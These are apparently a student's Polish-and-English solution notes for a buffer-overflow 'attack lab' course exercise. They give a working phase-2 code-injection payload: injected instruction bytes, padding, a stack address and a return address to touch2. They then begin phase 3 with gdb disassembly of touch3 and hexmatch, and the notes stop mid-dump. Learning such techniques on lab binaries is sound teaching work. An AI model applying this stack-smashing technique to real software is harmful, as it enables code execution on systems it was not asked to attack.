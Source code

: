 adres touch2: 0x0000000000401b7f
little endian 7f 1b 40 00 00 00 00 00

>>> x/s $rsp
0x5560a468:	"testing"

movq    $0x64d4c372, %rdi
ret

Disassembly of section .text:
0000000000000000 <.text>:
   0:	48 c7 c7 72 c3 d4 64 	mov    $0x64d4c372,%rdi
   7:	c3                   	retq   

Rozwiązanie
48 c7 c7 72 c3 d4 64 c3 /* movq $cookie, %rdi */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* padding do 24 */
68 a4 60 55 00 00 00 00 /* adres początku napisu, który napisuje adres powrotu (adres instrukcji movq)*/
7f 1b 40 00 00 00 00 00 /* adres touch2, który jest "nad" poprzednim*/

## zad 3
>>> disass touch3 
Dump of assembler code for function touch3:
   0x0000000000401c5a <+0>:	push   %rbx
   0x0000000000401c5b <+1>:	mov    %rdi,%rbx
   0x0000000000401c5e <+4>:	movl   $0x3,0x4898(%rip)        # 0x406500 <vlevel>
   0x0000000000401c68 <+14>:	mov    %rdi,%rsi
   0x0000000000401c6b <+17>:	mov    0x4897(%rip),%edi        # 0x406508 <cookie>
   0x0000000000401c71 <+23>:	callq  0x401bd9 <hexmatch>
   0x0000000000401c76 <+28>:	test   %eax,%eax
   0x0000000000401c78 <+30>:	je     0x401ca2 <touch3+72>
   0x0000000000401c7a <+32>:	mov    %rbx,%rsi
   0x0000000000401c7d <+35>:	lea    0x1704(%rip),%rdi        # 0x403388
   0x0000000000401c84 <+42>:	mov    $0x0,%eax
   0x0000000000401c89 <+47>:	callq  0x4010b0 <printf@plt>
   0x0000000000401c8e <+52>:	mov    $0x3,%edi
   0x0000000000401c93 <+57>:	callq  0x401e84 <validate>
   0x0000000000401c98 <+62>:	mov    $0x0,%edi
   0x0000000000401c9d <+67>:	callq  0x4011f0 <exit@plt>
   0x0000000000401ca2 <+72>:	mov    %rbx,%rsi
   0x0000000000401ca5 <+75>:	lea    0x1704(%rip),%rdi        # 0x4033b0
   0x0000000000401cac <+82>:	mov    $0x0,%eax
   0x0000000000401cb1 <+87>:	callq  0x4010b0 <printf@plt>
   0x0000000000401cb6 <+92>:	mov    $0x3,%edi
   0x0000000000401cbb <+97>:	callq  0x401f42 <fail>
   0x0000000000401cc0 <+102>:	jmp    0x401c98 <touch3+62>
End of assembler dump.

Dump of assembler code for function hexmatch:
   0x0000000000401bd9 <+0>:	push   %r12
   0x0000000000401bdb <+2>:	push   %rbp
   0x0000000000401bdc <+3>:	push   %rbx
   0x0000000000401bdd <+4>:	sub    $0x70,%rsp
   0x0000000000401be1 <+8>:	mov    %edi,%ebp
   0x0000000000401be3 <+10>:	mov    %rsi,%rbx
   0x0000000000401be6 <+13>:	callq  0x401160 <random@plt>
   0x0000000000401beb <+18>:	mov    %rax,%rcx
   0x0000000000401bee <+21>:	movabs $0xa3d70a3d70a3d70b,%rdx
   0x0000000000401bf8 <+31>:	imul   %rdx
   0x0000000000401bfb <+34>:	add    %rcx,%rdx
   0x0000000000401bfe <+37>:	sar    $0x6,%rdx
   0x0000000000401c02 <+41>:	mov    %rcx,%rax
   0x0000000000401c05 <+44>:	sar    $0x3f,%rax
